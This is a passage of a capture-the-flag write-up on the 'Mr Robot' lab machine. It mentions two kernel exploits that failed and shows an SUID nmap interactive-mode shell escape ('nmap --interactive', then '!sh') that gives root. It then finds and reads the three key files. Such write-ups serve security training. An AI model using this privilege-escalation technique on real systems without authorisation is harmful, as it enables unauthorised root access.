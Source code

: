 With this information, I headed over to [https://www.exploit-db.com/](https://www.exploit-db.com/) and looked for some privilege escalation exploits that I could use. I tried both the OFS [CVE-2015-1328] and recvmsg [CVE-2014-0038] exploits, but both failed to get root.

After these failed attempts, I recalled seeing an Nmap shell on a cheat sheet I use for TTY shells (https://netsec.ws/?p=337), so I decided to see if Nmap is installed on the machine and to my surprise, it was!

```shell_session
robot@linux:~$ which nmap
which nmap
/usr/local/bin/nmap
```
Not only is it installed, but it is also owned by root, and has the SUID flag set (meaning that when it is executed, it will run as if being executed by the owner). This combined with the fact older versions of Nmap will let us drop into a shell, means I could now get root access via Nmap:

```shell_session
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
#
```

## The Final Key
Now that I had root access, I ran the command I had previously used to try and find all files that match the naming pattern of the key files (`find / -name 'key-*-of-3.txt' 2>/dev/null`), and voila!

```shell_session
# find / -name 'key-*-of-3.txt' 2>/dev/null
find / -name 'key-*-of-3.txt' 2>/dev/null
/root/key-3-of-3.txt
/opt/bitnami/apps/wordpress/htdocs/key-1-of-3.txt
/home/robot/key-2-of-3.txt
```

The third and final key exists within `/root/key-3-of-3.txt`

```shell_session
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

![](/assets/images/how-i-hacked-mr-robot/Mr-Robot-Gag-Reel-Gif-5.gif)
